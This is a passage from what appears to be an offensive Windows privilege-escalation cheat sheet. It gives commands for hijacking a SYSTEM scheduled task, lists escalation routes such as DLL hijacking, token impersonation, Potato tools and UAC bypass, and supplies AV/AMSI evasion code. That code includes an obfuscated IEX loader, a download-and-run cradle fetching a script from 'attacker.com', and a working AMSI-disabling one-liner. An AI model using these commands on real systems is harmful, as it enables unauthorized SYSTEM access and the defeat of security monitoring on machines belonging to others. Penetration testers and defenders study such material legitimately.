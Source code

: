     ```cmd
    schtasks /query /fo LIST /v
    ```
    **Example Output**:
    ```
    TaskName: MyTask
    Run As User: SYSTEM
    Task To Run: C:\Tasks\script.bat
    ```
    - Replace `script.bat` with a malicious script:
      ```cmd
      echo C:\Temp\malicious.exe > C:\Tasks\script.bat
      ```
    - **Purpose**: Gain SYSTEM privileges when the task runs.

## Exploitation Methods
- **Unquoted Service Path Exploitation**:
  - Place a malicious binary in an intermediate directory to execute as SYSTEM.
  - **Purpose**: Achieve SYSTEM-level access.
- **Service Permission Exploitation**:
  - Reconfigure a service to run a malicious binary.
  - **Purpose**: Execute code as SYSTEM.
- **DLL Hijacking**:
  - Replace a legitimate DLL with a malicious one.
  - **Purpose**: Gain elevated privileges.
- **Token Impersonation**:
  - Steal and use a SYSTEM token.
  - **Purpose**: Gain SYSTEM access without credentials.
- **Potato Exploitation**:
  - Use JuicyPotato, RottenPotato, HotPotato, or PrintSpoofer to abuse impersonation privileges.
  - **Purpose**: Escalate to SYSTEM on various Windows versions.
- **UAC Bypass**:
  - Exploit trusted binaries to bypass UAC.
  - **Purpose**: Escalate to SYSTEM without user interaction.

## AV/AMSI Evasion Techniques
- **Obfuscated PowerShell Scripts**:
  - **Technique**: Obfuscate scripts (e.g., PowerUp) to bypass AMSI.
  - **Execution**: Use `Invoke-Obfuscation`.
    ```powershell
    Invoke-Obfuscation -ScriptBlock {Invoke-AllChecks} -Technique Encode
    ```
    **Example Output**:
    ```
    $encoded = "JAB...=="
    Invoke-Expression ([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($encoded)))
    ```
    - **Purpose**: Evade AMSI detection during script execution.
- **In-Memory Execution**:
  - **Technique**: Execute scripts in memory.
  - **Execution**: Use `Invoke-Expression`.
    ```powershell
    IEX (New-Object Net.WebClient).DownloadString('https://attacker.com/powerup.ps1')
    ```
    - **Purpose**: Avoid AV detection by not writing to disk.
- **AMSI Bypass**:
  - **Technique**: Disable AMSI via memory patching.
  - **Execution**:
    ```powershell
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null, [IntPtr]::Zero)